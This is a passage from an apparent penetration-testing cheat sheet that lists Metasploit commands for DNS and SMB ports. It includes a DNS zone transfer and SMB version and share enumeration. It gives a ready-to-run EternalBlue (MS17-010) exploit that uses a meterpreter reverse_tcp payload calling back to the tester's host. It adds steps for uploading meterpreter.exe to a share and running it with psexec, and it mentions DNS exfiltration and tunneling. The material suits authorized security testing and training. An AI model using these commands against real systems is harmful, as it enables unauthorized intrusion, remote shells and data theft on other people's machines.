 ### Auxiliary: DNS Zone Transfer
```bash
use auxiliary/gather/dns_axfr
set RHOSTS [IP]
set DOMAIN [DOMAIN]
```
**Purpose**: Attempts a zone transfer to dump all DNS records.

### Meterpreter Tip:
DNS typically doesn't provide direct shell access but can be used for:
- Data exfiltration via DNS queries
- Tunneling other protocols through DNS

---

## Port 139/445 - SMB
**Service**: Server Message Block  
**Common services**: Windows File Sharing, Samba, NetBIOS

### Auxiliary: SMB Version Detection
```bash
use auxiliary/scanner/smb/smb_version
set RHOSTS [IP]
```
**Purpose**: Discovers OS version and SMB version.

### Auxiliary: SMB Share Enumeration
```bash
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS [IP]
set SMBDomain [DOMAIN]
set SMBUser [USER]
set SMBPass [PASS]
```
**Purpose**: Enumerates available shares.

### Exploit: EternalBlue (MS17-010)
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [IP]
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST [Your IP]
set LPORT [Port]
```
**Purpose**: Exploits a critical vulnerability in SMBv1 (MS17-010).

### Meterpreter Tip:
SMB exploits often provide direct Meterpreter sessions. For file shares:
```bash
upload /path/to/meterpreter.exe \\share\\meterpreter.exe
psexec -s -c \\share\\meterpreter.exe
```

---